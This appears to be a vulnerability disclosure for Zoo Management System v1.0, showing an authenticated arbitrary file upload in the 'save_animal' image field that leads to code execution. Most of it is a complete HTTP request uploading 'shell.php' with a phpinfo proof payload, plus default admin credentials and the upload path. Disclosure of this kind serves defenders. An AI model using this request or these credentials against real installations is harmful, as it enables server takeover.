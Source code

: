 # Zoo Management System v1.0 by pushpam02 has arbitrary code execution (RCE)

BUG_Author: Tmoont

Admind login account: admin@mail.com/Password@123

vendor: https://www.sourcecodester.com/php/15347/zoo-management-system-source-code-php-mysql-database.html

Vulnerability url: http://ip/ZooManagementSystem/admin/public_html/save_animal

Loophole location：There is an arbitrary file upload vulnerability (RCE) in the picture upload point of the "save_animal" file of the "Animals" module in the background management system

Request package for file upload：

```sql
POST /ZooManagementSystem/admin/public_html/save_animal HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/ZooManagementSystem/admin/public_html/save_animal
Cookie: PHPSESSID=5d10vq7lgptbau7foskstiug7i
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------128553042714535
Content-Length: 4000

-----------------------------128553042714535
Content-Disposition: form-data; name="animal_id"


-----------------------------128553042714535
Content-Disposition: form-data; name="an_given_name"

1
-----------------------------128553042714535
Content-Disposition: form-data; name="an_species_name"

1
-----------------------------128553042714535
Content-Disposition: form-data; name="an_dob"

1
-----------------------------128553042714535
Content-Disposition: form-data; name="an_gender"

m
-----------------------------128553042714535
Content-Disposition: form-data; name="an_avg_lifespan"

11
-----------------------------128553042714535
Content-Disposition: form-data; name="class_id"

1
-----------------------------128553042714535
Content-Disposition: form-data; name="location_id"

1
-----------------------------128553042714535
Content-Disposition: form-data; name="an_dietary_req"

11
-----------------------------128553042714535
Content-Disposition: form-data; name="an_natural_habitat"

11
-----------------------------128553042714535
Content-Disposition: form-data; name="an_pop_dist"

1
-----------------------------128553042714535
Content-Disposition: form-data; name="an_joindate"

1
-----------------------------128553042714535
Content-Disposition: form-data; name="an_height"

1
-----------------------------128553042714535
Content-Disposition: form-data; name="an_weight"

1
-----------------------------128553042714535
Content-Disposition: form-data; name="an_description"

11
-----------------------------128553042714535
Content-Disposition: form-data; name="images[]"; filename="shell.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
-----------------------------128553042714535
Content-Disposition: form-data; name="an_med_record"

11
-----------------------------128553042714535
Content-Disposition: form-data; name="an_transfer"

11
-----------------------------128553042714535
Content-Disposition: form-data; name="an_transfer_reason"

11
-----------------------------128553042714535
Content-Disposition: form-data; name="an_death_date"

11
-----------------------------128553042714535
Content-Disposition: form-data; name="an_death_cause"

11
-----------------------------128553042714535
Content-Disposition: form-data; name="an_incineration"

11
-----------------------------128553042714535
Content-Disposition: form-data; name="m_gest_period"

11
-----------------------------128553042714535
Content-Disposition: form-data; name="m_category"

11
-----------------------------128553042714535
Content-Disposition: form-data; name="m_avg_body_temp"

11
-----------------------------128553042714535
Content-Disposition: form-data; name="b_nest_const"

11
-----------------------------128553042714535
Content-Disposition: form-data; name="b_clutch_size"

11
-----------------------------128553042714535
Content-Disposition: form-data; name="b_wingspan"

11
-----------------------------128553042714535
Content-Disposition: form-data; name="b_ability_fly"

yes
-----------------------------128553042714535
Content-Disposition: form-data; name="b_color_variant"

11
-----------------------------128553042714535
Content-Disposition: form-data; name="f_body_temp"

11
-----------------------------128553042714535
Content-Disposition: form-data; name="f_water_type"

11
-----------------------------128553042714535
Content-Disposition: form-data; name="f_color_variant"

1
-----------------------------128553042714535
Content-Disposition: form-data; name="rep_type"

11
-----------------------------128553042714535
Content-Disposition: form-data; name="clutch_size"

11
-----------------------------128553042714535
Content-Disposition: form-data; name="num_offspring"

11
-----------------------------128553042714535
Content-Disposition: form-data; name="submit"


-----------------------------128553042714535--
```

The files will be uploaded to this directory \ZooManagementSystem\img\animals
![image](https://user-images.githubusercontent.com/54017627/183284322-10ef0e16-b4ad-4d3e-8f58-90b08731855c.png)


We visited the directory of the file in the browser and found that the code had been executed
![image](https://user-images.githubusercontent.com/54017627/183284345-90333d24-75f6-480b-b1bc-35eaf7961a51.png)

